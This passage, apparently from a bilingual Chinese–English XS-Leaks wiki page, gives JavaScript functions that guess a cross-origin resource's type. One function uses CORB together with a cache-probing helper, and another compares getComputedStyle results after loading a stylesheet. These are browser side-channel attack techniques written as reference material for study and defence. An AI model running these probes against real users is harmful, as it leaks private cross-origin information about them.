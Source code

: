 ```javascript
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## 利用 CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) 是 Chrome 的一项功能，如果使用了错误的内容类型，则响应为空。因此，如果类型错误，就不会被缓存。

[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes responses empty if the wrong content type is used.
This means that if the type is wrong it’s not cached.

在 [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}}) 中可以找到一个函数叫 `ifCached`。

An `ifCached` function can be found in [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}}) article.

```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // 尝试加载资源
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // 等待被缓存（如果 CORB 允许的话）
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## 利用 getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) 可以用来读取一个嵌入到当前页面的 CSS 样式表。包括从不同源加载的 CSS。

[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to read an embedded to the current page CSS style sheets. Including those loaded from different origins. 

这个函数的作用是检查一个样式是否应用于 body。

This function just checks if there has been a style applied to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```